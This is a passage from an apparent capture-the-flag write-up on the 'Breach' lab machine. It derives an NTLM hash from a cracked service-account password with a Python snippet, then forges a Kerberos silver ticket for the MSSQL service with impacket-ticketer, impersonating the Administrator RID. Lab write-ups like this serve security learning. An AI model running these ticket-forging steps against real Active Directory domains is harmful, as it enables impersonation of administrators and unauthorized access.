 ![image.png](/assets/images/Breach_VL/image%2021.png)

SID → S-1-5-21-2330692793-3312915120-706255856

User-ID → 500 

We will we using the Administrator’s user id.

Now we need the NTLM hash of the SVC_MSSQL account, we can use this small python script to generate a hash.

```python
import hashlib
password = "Trustno1"
ntlm_hash = hashlib.new('md4', password.encode('utf-16le')).hexdigest()
print(ntlm_hash)
```

Running this gives us this NT Hash.

NTHASH → 69596c7aa1e8daee17f8e78870e25a5c

We now have all the required parameters to be able to forge a silver ticket.

```bash
impacket-ticketer -spn 'MSSQLSvc/breachdc.breach.vl' -domain-sid S-1-5-21-2330692793-3312915120-706255856 -domain breach.vl -user-id 500 -nthash 69596c7aa1e8daee17f8e78870e25a5c svc_mssql.ticket
```

![image.png](/assets/images/Breach_VL/image%2022.png)

Exporting it to our kerberos environment variable.

```bash
export KRB5CCNAME=svc_mssql.ticket.ccache
klist
```
